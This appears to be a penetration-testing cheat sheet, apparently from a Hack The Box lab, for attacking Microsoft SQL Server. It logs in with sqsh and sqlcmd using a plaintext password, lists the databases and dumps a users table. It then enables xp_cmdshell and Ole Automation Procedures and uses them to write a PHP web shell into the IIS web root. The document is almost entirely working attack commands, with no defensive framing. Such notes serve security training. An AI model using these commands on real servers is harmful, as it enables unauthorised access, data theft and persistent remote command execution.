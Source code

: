 
### sqsh
```bash
sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h
sqsh -S 10.129.203.7 -U .\\julio -P 'MyPassword!' -h
```

### sqlcmd
MSSQL
```bash
sqlcmd -S SRVMSSQL -U julio -P 'MyPassword!' -y 30 -Y 30

# display all databases
1> SELECT name FROM master.dbo.sysdatabases
2> GO

# choose database
1> USE htbusers
2> GO

# show tables
1> SELECT table_name FROM htbusers.INFORMATION_SCHEMA.TABLES
2> GO

# select columns from users table;
1> SELECT * FROM users
2> go

-- To allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1
GO

-- To update the currently configured value for advanced options.  
RECONFIGURE
GO  

# enable xp_cmdshell
-- To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1
GO  

-- To update the currently configured value for this feature.  
RECONFIGURE
GO


# To write files using MSSQL, we need to enable Ole Automation Procedures
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO

# Create a File
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
```